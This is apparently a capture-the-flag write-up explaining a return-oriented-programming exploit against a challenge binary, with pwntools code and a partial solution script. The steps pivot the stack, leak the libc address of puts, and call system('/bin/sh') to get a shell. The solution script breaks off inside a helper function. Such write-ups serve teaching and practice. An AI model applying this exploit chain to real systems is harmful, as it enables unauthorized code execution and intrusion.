 
2. Overwrite the qword behind `rip` with the address of `choice_buffer` + 32 bytes. (Would take two calls to the write function)
3. Write the address of a `pop rsp` gadget to `rip`, allowing me to stack pivot to the `choice_buffer`.
4. Read output of the above to leak the libc address of puts.
5. Use a libc library to lookup offsets to system and bin/sh
6. Add the proper offsets to my exploit script and start over.
    * I could have had my script take the right offsets as input while running. I decided it would be faster to just restart it with the updated values.
7. The first payload is sent again, getting the new address for `puts`, which is necessary due to ASLR.
8. Sent a second chain to my read function, this one structured as follows:
    1. `pop rdi` gadget
    2. Calculated address of /bin/sh in libc
    3. Calculated address of system in libc
8. Shell!

## Automation
Now that I have an exploit working locally, I need to get it to work dynamically by loading the right gadget addresses from the binary automatically. For this, I can just use pwntools:
```python
f = open('rotf-curr','wb').write(binary[4:-75])

e = ELF('rotf-curr')

PUTS_PLT = e.symbols['puts']
PUTS_GOT = e.got['puts']

READ_PLT = e.symbols['read']

p.success("Found addresses of puts@PLT {:x} and puts@GOT {:x}".format(PUTS_PLT, PUTS_GOT))

rop =ROP(e)

pop_rsp = rop.find_gadget(['pop rsp', 'pop r13', 'pop r14', 'pop r15', 'ret'])[0]

pop_rdi = rop.find_gadget(['pop rdi', 'ret'])[0]
pop_rdx = rop.find_gadget(['pop rdx', 'ret'])[0]
pop_rsi = rop.find_gadget(['pop rsi', 'ret'])[0]
```
In this case, I would save the binary from the remote service, so I could debug my exploit locally if I needed to.

# Solution
```python
from pwn import *
import subprocess
import os

ROP_OFFSET  = 0x6041e8
POP_RSP     = 0x401c4d

ROP_CHAIN_1 = p64(0x400fb3)     # Address of pop_rdi gadget
ROP_CHAIN_1 += p64(0x603020)    # Address of puts in the GOT
ROP_CHAIN_1 += p64(0x4008c0)    # Address of puts in the PLT
ROP_CHAIN_1 += p64(0x401850)    # Address of main

def writeToLocation(offset, address):
    p.sendline('2')
    p.recvuntil('What shelf is the book in?')
    p.sendline(str(address))
    p.recvuntil('Where in your backpack would you like to put the book?')
```